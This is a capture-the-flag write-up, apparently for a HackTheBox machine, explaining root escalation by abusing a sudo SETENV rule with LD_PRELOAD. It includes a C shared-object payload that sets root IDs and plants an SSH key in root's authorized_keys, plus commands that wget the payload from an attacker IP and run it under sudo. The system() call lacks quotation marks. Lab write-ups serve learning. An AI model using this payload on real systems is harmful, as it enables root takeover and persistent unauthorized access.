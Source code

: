 Privilege escalation   

Method : Abusing SETENV   

Learning SETENV.it seems important to figure out what it means and have a good understanding of how sudo handles environment variables. Checking the sudoers man page against what’s in this configuration, in the flags, there’s env_reset, which basically says that, because there’s no env_keep setting, none of waldo’s environment will be passed:

If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO_* variables. Any variables in the caller’s environment that match the env_keep and env_check lists are then added, followed by any variables present in the file specified by the env_file option (if any). The default contents of the env_keep and env_check lists are displayed when sudo is run by root with the -V option. If the secure_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

Next the SETENV tag says that as the caller, I can override env_reset using -E or by setting variables on the command line when I call sudo:

SETENV and NOSETENV

These tags override the value of the setenv option on a per-command basis. Note that if SETENV has been set for a command, the user may disable the env_reset option from the command line via the -E option. Additionally, environment variables set on the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep. As such, only trusted users should be allowed to set variables in this manner. If the command matched is ALL, the SETENV tag is implied for that command; this default may be overridden by use of the NOSETENV tag.

secure_path was also mentioned in the env_reset page, and is set here. It prevents the sudo caller from setting the $PATH variable:

secure_path Path used for every command run from sudo. If you don’t trust the people running sudo to have a sane PATH environment variable you may want to use this. Another use is if you want to have the ‘‘root path’’ be separate from the ‘‘user path’’. Users in the group specified by the exempt_group option are not affected by secure_path. This option is not set by default.

Reference Sudoers Man Page   
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)

Inside the opt dir of in this box. There is a bash script owned by root and the user we owned can run the bash script as root

Theory

Reading the script and we found the script is using two bash cammand cat and truncate
It turns out there is a library path hijack to exploit cleanup.sh. I can pass a $LD_PRELOAD into sudo.

About LD_PRELOAD

If you set LD_PRELOAD to the path of a shared object, that file will be loaded before any other library (including the C runtime, libc.so). So to run ls with your special malloc() implementation, do this

To avoid this mechanism being used as an attack vector for suid/sgid executable binaries, the loader ignores LD_PRELOAD if ruid != euid. For such binaries, only libraries in standard paths that are also suid/sgid will be preloaded.

```bash
Sudo LD_PRELOAD=/path/to/my/malloc.so /bin/ls
```

Reference : [https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick](https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick)

Exploit

Save as /tmp/pe.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system(mkdir -p /root/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys);
}
```

compile it on own our machine because target machine has no gcc
```bash
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Wget the complie file to target /photobomb/source_images/ dir. The reason we put the file in that dir excuteing the cleanup script with sudo permision the file with jpg extention in that dir has change the ownership to root from that point we need to change our exploit file extention to jpg and excuteing the script its change the ownership . After that we change the extention back to .so and load the file to LD_PRELOAD varilable

```bash
# getting file from attacker to remote machine
wget http://10.10.16.8/pe.so
# move pe.so to jpg extention to change the ownership
mv pe.so pe.so.jpg 
#run the cleanup scirpt
sudo /opt/cleanup.sh
# Back to the so extention
mv pe.so.jpg pe.so
# Command for load the pe.so along with cleanup.sh
sudo LD_PRELOAD=~/photobomb/source_images/pe.so /opt/cleanup.sh
```

Referance :[ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#env-info]( https://book.hacktricks.xyz/linux-hardening/privilege-escalation#env-info)   
Alternative referance : [https://0xdf.gitlab.io/2020/09/26/htb-admirer.html](https://0xdf.gitlab.io/2020/09/26/htb-admirer.html)












